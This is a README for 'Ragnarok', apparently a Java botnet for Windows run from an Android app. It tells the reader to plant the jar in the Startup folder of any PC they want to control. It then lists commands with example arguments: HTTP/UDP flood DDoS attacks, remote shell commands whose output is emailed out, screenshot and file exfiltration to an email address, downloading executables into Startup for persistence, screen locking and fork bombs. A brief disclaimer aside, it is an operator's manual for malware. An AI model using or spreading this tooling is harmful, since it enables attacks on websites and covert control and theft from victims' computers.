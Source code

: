 # Ragnarok
Java Botnet for Windows (Not released yet)

---EULA---

Ragnarok is a botnet with both fun purpose harmless commands and real ddos capability which can be used to measure ddos resistance on web services by launching attacks from multiple devices.
Ddosing a website without getting permission from its owner is illegal in most of countries.
Installing botnet to school, internet cafe or workplace computers without getting permission is illegal in most of countries.
Using Ragnarok's fun purpose commands on computers that belongs to other people or companies for malicious intent like disabling/locking computer, stealing personal files, executing harmful terminal commands, installing another software/files, watching their screen or causing their browser to visit a harmful website is considered illegal in most of countries.

I dont take any responsibility if you cause any harm with this program so use it at your own risk!

---How To Use---

Step 1: Download Ragnarok app to your Android device from googleplay.

Step 2: Download RagnarokBot.jar from this Github page

Step 3: Copy RagnarokBot.jar to "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\" folder on any windows pc you want to remotely control then make sure you rename it to anything else than RagnarokBot because default name forbidden for creating bot groups. (copying it to startup folder makes windows start it everytime pc turns on)

Step 4: Install Java 8 update 361 (lastest of Java 8) to that pc. Do not install Java versions that came after than Java 8 because they cause massive bugs. You can just download JavaSetup8u361.exe from this Github and use that to install perfect Java version for Ragnarok.

Step 5: Start bot by double clicking that renamed jar file and then open Ragnarok app from your android device and then type name of your jar file to bot group section and press connect.
When you send a command to a bot group then all of bots around the world which has that bot group name on itself will execute that commands so make sure you note what name you used when renaming your jar file.

Step 6: After app says "Connected" you can pick any command from command list then send it to connected bots around the world.
Keep reading to learn about how to modify command arguments.

---How To Send Commands---

Some commands can be sent without any arguments meanwhile some of them require arguments which needs to be seperated with '#' symbol. Arguments bar will be filled with argument template of related command when you select a command so all you need to do is replacing these arguments before sending selected command. Leave arguments bar empty if it comes as empty when you select a command because that means selected command doesnt require any arguments. You can find example command arguments for all available commands below.

---Command List---

HttpFlood;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using http flood method.
Example Command Argument: https://example.com/#5000

UdpFlood;
Arguments: Ip, Threads
Effect: Launches specified number of ddos attacks to given ip/domain by using udp flood method.
Example Command Argument 1: 93.184.216.34#100
Example Command Argument 2: example.com#100

Clusterstorm;
Arguments: Url, Threads
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000

I-Mod;
Arguments: Url, Threads, DelayMillisec, PayloadCount
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250#30

Pulsar;
Arguments: Url, Threads, Delay
Effect: Launches specified number of ddos attacks to given url by using powerful custom method.
Example Command Argument: https://example.com/#5000#250

Lock;
Arguments: password
Effect: prevents target computers from being used until users enter correct password that you set.
Example Command Argument: 123456789

Browse;
Arguments: Url
Effect: Uses default browser to open specified url.
Example Command Argument: https://example.com/

Terminal;
Arguments: CMD
Effect: Executes given terminal command on windows terminal
Example Command Argument: ipconfig

Terminal&Output;
Arguments: CMD, ToEmail
Effect: Executes given terminal command on windows terminal then emails results to given adress.
Example Command Argument: ipconfig#yourmail@gmail.com

Message;
Arguments: Text
Effect: Shows given text on screen.
Example Command Argument: something is in your pc

ChangeDesktopBG;
Arguments: JpgUrl, IntervalMS
Effect: Changes desktop background image with given image from a url in a loop.
Example Command Argument: https://example.com/image.jpg#1000

Screenshot;
Arguments: Count, IntervalMS, ToEmail
Effect: Takes screenshots according to given count and interval then emails them to given adress.
Example Command Argument: 5#10000#yourmail@gmail.com

EmailFile;
Arguments: FilePath, ToEmail, Message
Effect: Picks file according to given path then emails it to given adress with specified message. Uploads file to yandex drive if file is too big to email directly.
Example Command Argument: C:\Users\Admin\Desktop\Document.pdf#yourmail@gmail.com#yay

DownloadFile;
Arguments: Url, FilePath
Effect: Downloads a file from url then puts it to specified location. Downloaded file will be replaced if a file already exists with same name and extension on specified location.
Example Command Argument 1: https://example.com/image.jpg#C:\Users\Admin\Desktop\image.jpg
Example Command Argument 2: https://example.com/someprogram.exe#C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\someprogram.exe

StickyMouse;
Arguments: None
Effect: Mouse cursor wont be able to move far away from its current point.

CrazyMouse;
Arguments: None
Effect: Mouse cursor moves around randomly.

CrazyDrivers;
Arguments: None
Effect: CD/DVD roms will keep opening and closing itself.

CrazyKeyboard;
Arguments: None
Effect: Keyboard will type random stuff constantly. 

BSOD;
Arguments: None
Effect: Creates a fake BSOD effect which can be closed by pressing 'E' key.

ForkBomb;
Arguments: None
Effect: Overloads CPU until pc freezes.

ForkBombUltimate;
Arguments: None
Effect: Same with ForkBomb command but uses different method.

---Things To Remember---

You can have multiple bots with different names on same pc.
There is a chance that somebody else using same bot name with your bot. That will cause his/her commands to be executed by yours too meanwhile your commands will be executed by their botnet too so better prefer some unique names for your jar file (botnet) to have some privacy.
You can copy your bot to any other folder than startup folder and launch it yourself when you need it if you dont want it to auto start when pc turns on.
